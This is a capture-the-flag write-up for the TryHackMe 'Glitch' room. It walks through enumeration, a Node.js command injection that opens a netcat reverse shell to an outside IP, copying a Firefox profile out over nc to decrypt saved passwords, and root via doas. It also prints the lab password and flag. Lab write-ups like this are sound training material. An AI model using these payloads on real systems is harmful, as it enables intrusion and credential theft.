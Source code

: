 # [Challenge](https://tryhackme.com/room/glitch)
# ENUM
## nmap (`nmap -A -p- -T4 --min-rate 5000 glitch`)
```nmap
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: not allowed
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## gobuster (`gobuster dir -w /usr/share/wordlists/directory-list-lowercase-2.3-big.txt -u http://glitch -t 100`)
```gobuster
/img                  (Status: 301) [Size: 173] [--> /img/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/secret               (Status: 200) [Size: 724]
```
# EXPLOITATION
There's an API call: `/api/access`: `{"token":"dGhpc19pc19ub3RfcmVhbA=="}` -- (base64) --> `this_is_not_real`; there's also a cookie: let's try setting as value `this_is_not_real`: the page changed! 
Hint 1: "What other methods does the API accept?"
Let's open Burp and try using the POST method: `{"message":"there_is_a_glitch_in_the_matrix"}`
Let's go in `/secret` with the new cookie and... it's useless.
Let's use `ffuf`: `ffuf -u "http://glitch/api/items?FUZZ=test" -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt -X POST -mc all -fc 400,404`
There's `cmd`! Let's [reverse shell](https://www.revshells.com/) (`node.js`): `require%28%27child_process%27%29.exec%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.8.13.111%204444%20%3E%2Ftmp%2Ff%27%29` (URL encoded payload, the normal one is `require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.13.111 4444 >/tmp/f')`)

# PRIVILEGE ESCALATION
We can see that `doas` has SUID bit check! Let's check the `doas.conf`: `permit v0id as root`
We need to be `v0id` user... let's find something else.
There's the firefox hidden directory in `~/user` folder: there could be some passwords saved in the browser! Let's copy the `./firefox` folder: `nc 10.8.13.111 5555 < firefox.tgz` and on our machine: `nc -lvnp 5555 > firefox.tgz` --> `tar -xf firefox.tgz` -> `firefox .firefox` -- (now let's [decrypt the files](http://github.com/unode/firefox_decrypt)) --> `git clone https://github.com/unode/firefox_decrypt.git` -> `python3 firefox_decrypt/firefox_decrypt.py ./firefox/.firefox/b5w4643p.default-release`
```
Website:   https://glitch.thm
Username: 'v0id'
Password: 'love_the_void'
```
Perfect! Now let's log into v0id (using an interactive terminal `python3 -c 'import pty; pty.spawn("/bin/bash")'`)
Now, let's execute `doas -u root /bin/bash`: we're ROOT! Let's grab the flag: `THM{diamonds_break_our_aching_minds}`



